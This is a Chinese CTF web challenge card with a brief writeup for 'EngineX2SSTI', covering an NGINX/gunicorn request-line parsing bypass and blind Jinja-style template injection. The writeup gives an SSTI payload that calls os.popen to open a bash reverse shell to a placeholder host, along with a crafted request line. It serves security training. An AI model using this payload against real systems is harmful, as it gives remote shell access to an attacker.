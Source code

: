 - **题目名称：** EngineX2SSTI
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** itSssm3
- **考点：**
1. NGINX配合gunicorn解析绕过
2. 无回显ssti
- **描述：** 这个nginx怎么不对劲……怎么ssti也不对劲呜呜呜呜
- **flag：** XSCTF{flag}
- **Writeup：** 

```
POST /secret	HTTP/1.1/../../hello HTTP/1.1
……
……

xscode={{lipsum.__globals__.__builtins__.__import__('os')['popen']('bash+-c+"bash+-i+>%26+/dev/tcp/vps/port+0>%261"').read()}}
```
反弹shell之后 `cat flag` 就行了
